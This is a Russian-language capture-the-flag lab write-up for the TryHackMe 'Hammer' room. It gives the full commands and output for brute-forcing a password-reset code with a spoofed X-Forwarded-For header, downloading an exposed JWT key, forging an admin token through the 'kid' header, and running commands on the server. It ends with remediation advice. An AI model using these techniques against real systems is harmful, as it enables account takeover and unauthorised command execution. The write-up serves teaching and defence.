





# Hammer

> Компрометация веб-приложения через слабый механизм восстановления пароля и последующую подделку JWT благодаря раскрытому HMAC-ключу и небезопасному использованию заголовка `kid`.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / JWT |
| Основные техники | Directory enumeration, password reset brute force, JWT forgery, kid path abuse, command execution |

## Краткое резюме

Журнал Apache, доступный в каталоге `hmr_logs`, раскрыл действительный адрес `tester@hammer.thm`. Механизм восстановления использовал четырёхзначный код и передавал оставшееся время в управляемом клиентом параметре `s`, что позволило автоматизировать перебор и сменить пароль учётной записи.

В панели управления была доступна функция выполнения команд, авторизация которой опиралась на JWT. Заголовок `kid` содержал путь к ключу, а файл `188ade1.key` был доступен из web root. Получение ключа позволило сформировать корректно подписанный токен с ролью `admin` и выполнить команду чтения флага.

## Разведка

### Сканирование TCP-портов

Для определения доступных сетевых сервисов был выполнен первичный скан целевой системы с помощью `nmap`:

```bash
nmap -sV -O TARGET_IP
```

```text
Nmap scan report for TARGET_IP
Host is up (0.00069s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
```

Первичный скан охватывал только наиболее распространённые порты и обнаружил SSH-сервис на TCP-порту 22. Для проверки всего диапазона TCP-портов был выполнен полный скан:

```bash
nmap -sV -O -p- TARGET_IP
```

```text
Nmap scan report for TARGET_IP
Host is up (0.00076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

В результате были обнаружены два доступных сервиса:

| Порт | Сервис | Версия | Назначение |
|---:|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 | Удалённое администрирование |
| 1337/tcp | HTTP | Apache 2.4.41 | Исследуемое веб-приложение |

Дальнейшее исследование было сосредоточено на HTTP-сервисе.

### Анализ веб-приложения

Анализ приложения выполнялся через встроенный браузер и прокси-перехватчик Burp Suite.

#### Главная страница

На главной странице располагались форма аутентификации и ссылка на страницу сброса пароля.



В HTML-коде страницы был обнаружен комментарий разработчика:

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

Комментарий указывал на соглашение об именовании каталогов с префиксом `hmr_`. Эта информация была использована при последующем переборе директорий.

#### Страница сброса пароля

Страница `reset_password.php` содержала форму для ввода адреса электронной почты.



Анализ клиентского HTML- и JavaScript-кода на данном этапе не выявил дополнительных данных, однако сама функция восстановления пароля представляла интерес для дальнейшего тестирования.

#### Поиск доступных файлов и маршрутов

Для поиска стандартных файлов и HTTP-маршрутов была использована утилита `gobuster`:

```bash
gobuster dir -u http://TARGET_IP:1337 -w PATH_TO_WORDLIST
```

```text
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.php            (Status: 200) [Size: 1326]
/javascript           (Status: 301) [Size: 326] []] http://TARGET_IP:1337/javascript/]
/logout.php           (Status: 302) [Size: 0] []] index.php]
/vendor               (Status: 301) [Size: 322] []] http://TARGET_IP:1337/vendor/]
/config.php           (Status: 200) [Size: 0]
/dashboard.php        (Status: 302) [Size: 0] []] logout.php]
/phpmyadmin           (Status: 301) [Size: 326] []] http://TARGET_IP:1337/phpmyadmin/]
/reset_password.php   (Status: 200) [Size: 1664]
/server-status        (Status: 403) [Size: 280]
```

Результаты подтвердили наличие панели управления `dashboard.php`, недоступной без действующей сессии, а также страницы восстановления пароля. Прямое обращение к `config.php` возвращало пустой ответ, поэтому немедленно получить конфигурационные данные не удалось.

С учётом найденного комментария разработчика был выполнен отдельный перебор директорий, начинающихся с `hmr_`:

```bash
ffuf \
  -u http://TARGET_IP:1337/hmr_FUZZ \
  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
```

```text
css      [Status: 301, Size: 323, Words: 20, Lines: 10]
js       [Status: 301, Size: 322, Words: 20, Lines: 10]
logs     [Status: 301, Size: 324, Words: 20, Lines: 10]
images   [Status: 301, Size: 326, Words: 20, Lines: 10]
```

Каталоги `hmr_css`, `hmr_js` и `hmr_images` не содержали значимой для эксплуатации информации. В каталоге `hmr_logs` был обнаружен файл `error.logs`.

### Анализ журнала ошибок

Файл `error.logs` содержал записи журнала Apache, включая следующие строки:

```text
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
```

Из журнала была получена следующая информация:

| Данные | Значение |
|---|---|
| Корневая директория веб-приложения | `/var/www/html` |
| Действительный адрес пользователя | `tester@hammer.thm` |
| Имя локального пользователя | `hammerthm` |
| Упомянутые маршруты | `/restricted-area`, `/admin-login` |

Наиболее важной находкой стал действительный адрес `tester@hammer.thm`, который можно было использовать в механизме восстановления пароля.

## Получение первоначального доступа

### Анализ механизма восстановления пароля

На странице сброса пароля был введён адрес `tester@hammer.thm`. После отправки формы приложение предложило ввести одноразовый четырёхзначный код восстановления.



Перехваченный в Burp Suite POST-запрос содержал два параметра:

- `recovery_code` — введённый четырёхзначный код;
- `s` — оставшееся время таймера в секундах.


### Перебор кода восстановления

Список всех четырёхзначных комбинаций был сформирован с помощью `seq`:

```bash
seq -w 0000 9999 > recovery-codes.txt
```

Для воспроизведения атаки использовалась следующая схема запроса через `ffuf`; значения cookie и фильтр отрицательного ответа необходимо брать из актуального запроса Burp Suite:

```bash
ffuf \
  -w recovery-codes.txt \
  -u http://TARGET_IP:1337/reset_password.php \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "X-Forwarded-For: FUZZ" \
  -H "Cookie: PHPSESSID=SESSION_ID" \
  -d "recovery_code=FUZZ&s=9999" \
  -fr "Invalid"
```

Вместо фильтра по строке `-fr` также можно использовать фильтрацию по размеру ответа, если ответы на неверный код имеют постоянную длину.

Перебор позволил определить действительный код восстановления. После его отправки приложение открыло форму установки нового пароля.



Пароль учётной записи был изменён, после чего удалось выполнить вход от имени `tester@hammer.thm` и получить доступ к `dashboard.php`.

## Эксплуатация панели управления

### Функция выполнения команд

Панель управления содержала форму для отправки команд операционной системе.



Интерфейс отклонял некоторые команды, включая `cat` и `head`, однако команда `ls` выполнялась успешно:

```text
188ade1.key
composer.json
config.php
dashboard.php
execute_command.php
hmr_css
hmr_images
hmr_js
hmr_logs
index.php
logout.php
reset_password.php
vendor
```

В корневой директории веб-приложения находился файл `188ade1.key`, название которого указывало на возможный криптографический ключ.

### Анализ JWT

В исходном коде страницы был обнаружен JWT, использовавшийся при отправке команд. После декодирования токен имел следующий заголовок:

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
```

Полезная нагрузка токена содержала сведения о пользователе и его роли:

```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1784160044,
  "exp": 1784163644,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "user"
  }
}
```

Использование алгоритма `HS256` означает, что один и тот же секрет применяется как для создания, так и для проверки подписи. Особый интерес представляло поле `kid`: приложение интерпретировало его как путь к файлу с ключом.

### Получение ключа подписи

Файл `188ade1.key` находился внутри доступной из веб-каталога директории и мог быть загружен напрямую:

```bash
curl http://TARGET_IP:1337/188ade1.key
```

Полученное содержимое являлось ключом, пригодным для создания корректной подписи JWT.

Таким образом, были выполнены два условия для подделки токена:

1. Секретный ключ подписи был раскрыт через HTTP.
2. Поле `kid` позволяло указать путь к этому ключу на сервере.

### Формирование административного JWT

Для повышения привилегий заголовок токена был изменён следующим образом:

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/html/188ade1.key"
}
```

В полезной нагрузке значение роли было изменено с `user` на `admin`:

```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1784160044,
  "exp": 1784163644,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "admin"
  }
}
```

После изменения заголовка и полезной нагрузки токен был повторно подписан содержимым файла `188ade1.key`. В результате сервер принимал его как действительный административный JWT.

### Получение флага

Поддельный JWT был подставлен в POST-запрос к `execute_command.php` с помощью Burp Repeater. В теле запроса была передана команда:

```json
{
  "command": "cat /home/ubuntu/flag.txt"
}
```

Сервер выполнил команду с административным токеном и вернул содержимое файла флага. На этом эксплуатация комнаты была завершена.

## Выявленные уязвимости

### Раскрытие чувствительных данных через журналы

Каталог с журналами был доступен через веб-сервер. Записи раскрывали действительный адрес пользователя, внутренние пути файловой системы и названия закрытых маршрутов.

**Рекомендация:** хранить журналы вне корневой директории веб-приложения и запрещать их выдачу веб-сервером.

### Небезопасный механизм восстановления пароля

Код восстановления состоял только из четырёх цифр, а сервер не ограничивал частоту попыток. Время действия процесса частично контролировалось клиентским параметром `s`.

**Рекомендация:** проверять срок действия исключительно на сервере, применять ограничение частоты запросов и блокировку после нескольких неудачных попыток, а также использовать более длинные одноразовые токены.

### Раскрытие ключа подписи JWT

Секретный ключ находился в доступной из веб-каталога директории и мог быть загружен без аутентификации.

**Рекомендация:** хранить ключи вне web root, ограничивать права доступа и регулярно выполнять ротацию секретов.

### Небезопасная обработка поля `kid`

Приложение использовало значение `kid` как произвольный путь к файлу. Пользователь мог указать собственный путь и заставить сервер проверить токен выбранным ключом.

**Рекомендация:** использовать фиксированный список допустимых идентификаторов ключей и никогда не интерпретировать пользовательское значение `kid` как путь файловой системы.

### Опасная функция выполнения системных команд

Веб-приложение предоставляло возможность передавать команды операционной системе. Компрометация механизма авторизации непосредственно привела к выполнению произвольной команды и чтению чувствительного файла.

**Рекомендация:** отказаться от прямого выполнения shell-команд. Если функция необходима, использовать строгий список разрешённых операций без передачи пользовательского ввода оболочке.

## Итог

Комната демонстрирует цепочку из нескольких ошибок конфигурации и логики приложения. Каждая отдельная проблема — доступные журналы, слабый механизм восстановления пароля, раскрытый ключ JWT и небезопасное использование `kid` — существенно облегчала следующий этап атаки. Их сочетание позволило пройти путь от неаутентифицированного пользователя до выполнения команды с административными привилегиями.

Ключевой вывод заключается в том, что секреты и журналы не должны находиться в доступной веб-директории, а данные из JWT-заголовка нельзя напрямую использовать для выбора файлов на сервере. Механизмы восстановления доступа также должны полностью контролироваться сервером и иметь защиту от перебора.

## Ключевые выводы

- Журналы веб-сервера не должны публиковаться через HTTP, поскольку они раскрывают пользователей, внутренние пути и закрытые маршруты.
- Короткий recovery-код без эффективного серверного rate limit допускает перебор, а срок действия не должен зависеть от клиентского параметра.
- HMAC-ключ JWT должен храниться вне web root и быть недоступен клиенту.
- Значение `kid` нельзя интерпретировать как произвольный путь файловой системы; допустимые ключи должны выбираться из фиксированного набора.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Поиск сетевых сервисов |
| `Gobuster` | Перечисление стандартных HTTP-ресурсов |
| `ffuf` | Перебор каталогов с префиксом `hmr_` и recovery-кодов |
| `Burp Suite` | Перехват запросов, анализ и подмена JWT |
| `curl` | Получение доступного ключа подписи |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
